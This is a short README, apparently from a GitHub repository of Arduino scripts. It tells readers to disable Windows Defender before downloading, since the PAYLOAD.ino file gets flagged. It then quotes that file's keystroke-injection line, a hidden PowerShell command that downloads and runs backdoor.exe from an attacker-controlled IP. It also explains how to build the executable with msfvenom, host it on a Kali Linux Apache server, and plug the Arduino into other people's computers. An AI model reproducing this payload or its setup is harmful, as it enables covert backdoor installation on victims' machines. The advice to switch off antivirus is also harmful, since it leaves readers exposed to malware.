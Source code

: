 # arduino-scripts
all the arduino scripts that i have made for you guys!
also when you download turn off windows Defender because all files are safe but the PAYLOAD.ino file is flagges because of this string of code   Keyboard.print
("powershell -windowstyle hidden c~/; (new-object System.Net.WebClient).DownloadFile('http://192.168.1.139/backdoor.exe','backdoor.exe'); Start-Process \"backdoor.exe\" ");
as i said this if yor you to host a payload on your apache server and to remostly deploy it on other computer by puging in arduino change the ip to your kali loinux ip and make msfvenom exe and name it backdoor.exe put it on apache server then start here where it says 192.168.1.139 make that your kali linux ip
